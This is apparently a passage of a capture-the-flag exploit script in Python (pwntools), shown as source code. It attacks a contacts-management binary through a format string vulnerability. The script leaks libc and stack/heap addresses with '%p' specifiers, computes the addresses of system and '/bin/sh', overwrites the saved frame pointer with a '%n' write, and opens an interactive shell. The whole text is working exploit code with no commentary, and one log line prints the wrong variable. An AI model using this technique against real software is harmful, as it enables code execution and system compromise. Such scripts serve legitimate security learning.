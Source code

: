 ```py
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)
def printcontact(io):
    sh=io
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')

#gdb.attach(io)

createcontact(io,"1","1","111","%31$paaaa")
printcontact(io)
libc_start_main = int(io.recvuntil('aaaa', drop=True), 16)-241
log.success('get libc_start_main addr: ' + hex(libc_start_main))
libc_base=libc_start_main-libc.symbols["__libc_start_main"]
system=libc_base+libc.symbols["system"]
binsh=libc_base+next(libc.search("/bin/sh"))
log.success("system: "+hex(system))
log.success("binsh: "+hex(binsh))

payload = '%6$p%11$pccc'+p32(system)+'bbbb'+p32(binsh)+"dddd"
createcontact(io,'2', '2', '111', payload)
printcontact(io)
io.recvuntil('Description: ')
data = io.recvuntil('ccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)+12
log.success("ebp: "+hex(system))
log.success("heap: "+hex(heap_addr))

part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

#payload=fmtstr_payload(6,{ebp_addr:heap_addr})
##print payload
createcontact(io,'3333', '123456789', '300', payload)
printcontact(io)
io.recvuntil('Description: ')
io.recvuntil('Description: ')
##gdb.attach(sh)
log.success("get shell")
io.recvuntil('>>> ')
##get shell
io.sendline('5')
io.interactive()
```
